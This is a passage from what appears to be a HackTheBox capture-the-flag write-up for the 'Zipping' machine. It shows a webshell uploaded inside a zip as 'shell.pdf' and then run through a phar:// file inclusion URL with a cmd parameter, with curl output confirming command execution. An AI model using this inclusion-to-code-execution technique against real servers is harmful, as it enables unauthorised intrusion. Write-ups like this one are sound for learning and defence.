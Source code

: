 
Now when I upload that zip, Zipping will unzip `shell.pdf` and return me the
link to it:

![image-20240111142822352](../img/image-20240111142822352.png)

I know that file is at
`/var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf`, so I can
visit:

    
    
    http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id
    

And it runs the given command, `id`:

    
    
    oxdf@hacky$ curl 'http://10.10.11.229/shop/index.php?page=phar:///var/www/html/uploads/ea409d50349a8436fe49f7ec66aa6132/shell.pdf/shell&cmd=id'
    uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
    

That’s a super cool trick!

[](/2024/01/13/htb-zipping.html)

